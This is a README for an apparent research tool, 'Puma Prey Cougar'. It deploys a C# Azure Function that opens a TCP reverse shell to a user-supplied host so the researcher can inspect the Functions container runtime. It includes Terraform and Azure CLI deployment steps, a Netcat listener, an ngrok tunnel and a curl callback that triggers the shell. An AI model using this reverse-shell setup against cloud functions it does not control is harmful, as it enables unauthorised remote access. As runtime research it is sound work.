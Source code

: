 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

### Native Deployment

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
func azure functionapp publish pumapreycougar
```

Then, enable the function identity to use an MSI account during execution.

### Terraform

```bash
cd src
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

# Optional: Use a Windows runtime (defaults to Linux).
export TF_VAR_AppServicePlanKind=Windows

az login
terraform apply
```

## Function Testing

Retrieve the Function Id, Host, and API key via the CLI.

```
export COUGAR_FUNCTION_ID=$(terraform output --json | jq -r '.cougar_function_id.value')
export COUGAR_FUNCTION_HOST=$(terraform output --json | jq -r '.cougar_function_host.value')
export COUGAR_API_KEY=$(az rest --method post --uri "$COUGAR_FUNCTION_ID/host/default/listKeys?api-version=2018-11-01" | jq -r .functionKeys.default)
export COUGAR_FUNCTION_URL=http://$COUGAR_FUNCTION_HOST/api/Cougar
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY"
```

The result should show an error message indicating required parameters are missing:

```
{"message":"Must provide the host and port for the target TCP server as query parameters."}%
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cougar --url-id "cougar$TF_VAR_UniqueString" --api-key YOUR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cougar.

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```

